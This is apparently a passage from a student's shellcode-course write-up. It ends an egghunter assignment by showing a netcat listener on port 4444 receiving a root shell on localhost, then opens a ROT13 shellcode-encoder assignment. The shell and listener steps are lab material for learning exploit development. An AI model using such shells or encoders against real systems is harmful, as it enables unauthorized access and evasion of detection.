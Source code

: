 ```
nc -v -l 4444
```

The terminal will hang in a listeneing state until it receives a connection on that port.


Now in a separate terminal let's run our compiled shellcode!

```
root@ubuntu:/mnt/hgfs/assembly/exam/3-Assignment/testShellcode# ./testingShellcode
Egghunter Length:  35
Shellcode Length:  104

```

It should hang like our previous command, but if we go back to our listener...

You can see we have a shell!

```
root@ubuntu:/home/ubuntu# nc -v -l 4444
Connection from 127.0.0.1 port 4444 [tcp/*] accepted
id
uid=0(root) gid=0(root) groups=0(root)
```

I hope you enjoyed learning about egghunters and implementing them using shellcode!





# Assignment 4

# Custom Encoder Requirements
- Create a custom encoding scheme like the “Insertionon Encoder”
- PoC with using execve-stack as the shellcode to encode with your schema and execute

## Prerequisites

- Basic understanding of registers
- Basic understanding of stack and memory
- Basic understanding of assembly


## Approach

There are potentially dozens if not hundreds of methods you could use to encode our shellcode. For this assignment, I decided to go with an easy yet versatile method. The ROT13 cipher.

ROT13 ("rotate by 13 places") is a simple letter substitution cipher that replaces a letter with the 13th letter after it in the alphabet. 

Because there are 26 letters (2×13) in the basic Latin alphabet, ROT13 is its own inverse; that is, to undo ROT13, the same algorithm is applied, so the same action can be used for encoding and decoding.
